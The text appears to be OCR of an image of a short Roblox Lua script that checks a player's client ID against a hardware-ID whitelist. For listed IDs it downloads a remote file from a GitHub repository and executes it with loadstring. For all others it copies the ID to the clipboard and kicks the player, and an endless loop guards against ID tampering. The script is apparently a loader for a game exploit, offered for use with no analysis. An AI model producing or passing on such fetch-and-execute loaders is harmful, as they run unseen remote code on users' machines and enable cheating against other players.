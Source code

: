 local HWID = {
    "1a2a1be4-c714-4d65-8091-510458d331ea"
}
local Old = game:GetService("RbxAnalyticsService"):GetClientId()
if game:GetService("RbxAnalyticsService"):GetClientId() ~= Old then 
    while true do end
end
if HWID[table.find(HWID, Old)] == Old then
    loadstring(game:HttpGet"https://raw.githubusercontent.com/Cve-Hub/SongHaPong/main/README.md")()
else
    setclipboard("HWID : "..tostring(Old))
    game.Players.LocalPlayer:Kick("Wrong Hwid Dm Admin!")
    wait(.5)

game:Shutdown()
end
